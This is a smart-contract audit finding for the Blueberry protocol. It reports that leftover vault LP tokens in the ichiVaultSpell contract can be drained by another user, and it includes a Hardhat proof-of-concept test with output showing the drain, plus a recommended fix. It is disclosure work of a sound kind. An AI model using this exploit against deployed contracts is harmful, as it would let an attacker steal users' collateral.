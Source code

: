 evan

medium

# vault LPTokens can stay in ichiVaultSpell after closePosition() and be drained by another user

## Summary
In closePosition(), the user may specify `amountLpWithdraw`, which is the amount of LPTokens to leave alone (instead of withdrawing liquidity). However, after closePosition(), these LPTokens stay in the ichiVaultSpell contract where they can be withdrawn for free by another user with a specially crafted closePosition() call.

## Vulnerability Detail
https://github.com/sherlock-audit/2023-02-blueberry/blob/main/contracts/spell/IchiVaultSpell.sol#L355
`lpTakeAmt` is the amount of vault LPTokens withdrawn from blueberryBank.

https://github.com/sherlock-audit/2023-02-blueberry/blob/main/contracts/spell/IchiVaultSpell.sol#L294
All but `amountLpWithdraw` of these vault LPTokens get sent to the vault to withdraw the assets. The `amountLpWithdraw` vault LPTokens stay in the ichiVaultSpell contract. 

https://github.com/sherlock-audit/2023-02-blueberry/blob/main/contracts/spell/IchiVaultSpell.sol#L328
https://github.com/sherlock-audit/2023-02-blueberry/blob/main/contracts/spell/BasicSpell.sol#L56-L61
By taking advantage of the closePosition function refunding borrowTokens ^^, these remaining vault LPTokens can be withdrawn by another user for free by calling closePosition with `borrowToken` = vault LPToken, `lpTakeAmt` = `amountRepay` = `amountShareWithdraw` = 0. See proof of concept for more detail.

## Impact
When a user calls closePosition with a nonzero  `amountLpWithdraw`, these vault LPTokens, which are supposed to be the collateral of their position, get stuck in the ichiVaultSpell contract. An attacker can drain these token from the contract, meaning that there will not enough vault LPTokens to pay back the debt when the user decide to fully close their position in the future. Furthermore, this puts the user at a higher risk of liquidation.

## Code Snippet
Please put this test in bank.test.ts, and run `yarn hardhat test --grep Vuln3`
Note that the line `await usdc.transfer(spell.address, utils.parseUnits('10', 6));` is to manually set the vault rewards. It appears in other tests as well.
```javascript
	describe("Vuln3", () => {
		const depositAmount = utils.parseUnits('100', 18);
		const borrowAmount = utils.parseUnits('300', 6);
		
		const iface = new ethers.utils.Interface(SpellABI);

		beforeEach(async () => {
			await usdc.approve(bank.address, ethers.constants.MaxUint256);
			await ichi.approve(bank.address, ethers.constants.MaxUint256);
			await bank.execute(
				0,
				spell.address,
				iface.encodeFunctionData("openPosition", [
					0,
					ICHI,
					USDC,
					depositAmount,
					borrowAmount
				])
			)

			await usdc.connect(alice).approve(bank.address, ethers.constants.MaxUint256);
			await ichi.connect(alice).approve(bank.address, ethers.constants.MaxUint256);
			await bank.connect(alice).execute(
				0,
				spell.address,
				iface.encodeFunctionData("openPosition", [
					0,
					ICHI,
					USDC,
					utils.parseUnits('1', 18),
					utils.parseUnits('1', 6)
				])
			)
		})
		it("remnant LPToken", async () => {
			await ichiVault.rebalance(-260400, -260200, -260800, -260600, 0);
			await usdc.transfer(spell.address, utils.parseUnits('10', 6));

			const ivToken = await ethers.getContractAt("MockIchiVault", ichiVault.address);

			let posInfo = await bank.getPositionInfo(1);

			
			await bank.execute(
				1,
				spell.address,
				iface.encodeFunctionData("closePosition", [
					0,
					ICHI,
					USDC, // ICHI vault lp token is collateral
					ethers.constants.MaxUint256,	// Amount of werc20
					borrowAmount.div(2),  // Amount of repay
					await posInfo.collateralSize.div(2),
					depositAmount.div(2),
				])
			)

			await ichiVault.rebalance(-260400, -260200, -260800, -260600, 0);
			await usdc.transfer(spell.address, utils.parseUnits('0.1', 6));

			console.log("ichivault lpToken balance before");
			console.log("alice: " + await ivToken.balanceOf(alice.address));
			console.log("spell: " + await ivToken.balanceOf(spell.address));

			bank.connect(alice).execute(
				2,
				spell.address,
				iface.encodeFunctionData("closePosition", [
					0,
					ICHI,
					ichiVault.address, // ICHI vault lp token is collateral
					0,	// Amount of werc20
					0,  // Amount of repay
					(await ivToken.balanceOf(spell.address)).mul(9).div(10),
					0,
				])
			)

			await ichiVault.rebalance(-260400, -260200, -260800, -260600, 0);
			console.log("ichivault lpToken balance after");
			console.log("alice: " + await ivToken.balanceOf(alice.address));
			console.log("spell: " + await ivToken.balanceOf(spell.address));
		})
	})
```
Relevant output of the test:
```plaintext
ichivault lpToken balance before
alice: 0
spell: 150000000
ichivault lpToken balance after
alice: 135000000
spell: 0
```
Observe that alice opened a very small position with very little collateral. The victim called closePosition with a nonzero `amountLpWithdraw`, and alice is able to to drain the vault LPTokens that stayed in ichiVaultSpell.
Note that `(await ivToken.balanceOf(spell.address)).mul(9).div(10)`  is to ensure that there is a nonzero amount of vault LP tokens that get sent to the vault to withdraw liquidity (otherwise it won't work). The fraction doesn't necessarily have to be 9/10 - it just has to be less than 1.

## Tool used
Manual Review
Hardhat

## Recommendation
The fix would depend on the intended functionality. The remaining vaultLpTokens should either be sent back to the user with `doRefund`, or it should be returned to the blueberryBank as the collateral of the position with `doPutCollateral`. 
